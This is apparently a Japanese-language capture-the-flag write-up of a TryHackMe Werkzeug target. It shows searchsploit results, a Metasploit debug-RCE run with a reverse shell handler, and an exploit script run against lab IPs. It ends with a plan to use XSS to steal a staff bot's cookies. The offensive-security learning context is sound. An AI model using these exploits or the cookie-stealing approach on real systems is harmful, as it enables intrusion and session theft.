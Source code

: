 Werkzeug/3.0.1

###

```shell
$ searchsploit Werkzeug
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Pallets Werkzeug 0.15.4 - Path Traversal                             | python/webapps/50101.py
Werkzeug - 'Debug Shell' Command Execution                           | multiple/remote/43905.py
Werkzeug - Debug Shell Command Execution (Metasploit)                | python/remote/37814.rb
--------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

RCE があるが、対象バージョン不明。

## exploitDB

```shell
msf6 exploit(multi/http/werkzeug_debug_rce) > run

[*] Started reverse TCP handler on 192.168.11.9:4444
[-] Secret code not detected.
[*] Exploit completed, but no session was created.
```

効果なし。

```shell
$ python2 43905.py 10.10.178.54 8080 10.2.22.182 1234
[-] Debug is not enabled
```

効果なし。

/submit_feedback に対応する、feedback を閲覧する画面があるのではないかと思い、探す。  
http://10.10.178.54:8080/view_feedback  
は 401 になるので存在はする模様。

401 が返るってことはどこかにログイン画面があると思うのだが・・・

### 次のアクション選択

1. dirbuster で隠しページを探す
2. submit_feedback 画面で脆弱性を探す
3. SSH のブルートフォース

1 は THM の環境では dirbuster は無理だと思う。  
3 も、何もリストがないと現実的ではない。  
2 は、登録時の処理（Python）でコマンドインジェクションや SQL インジェクションを実行するトリガーは無さそう。

もしかすると、スタッフが登録内容を /view_feedback で閲覧するというシナリオで、ボットが動いているのでは？  
ということで、XSS でクッキーを盗む js コードの登録を試してみる。
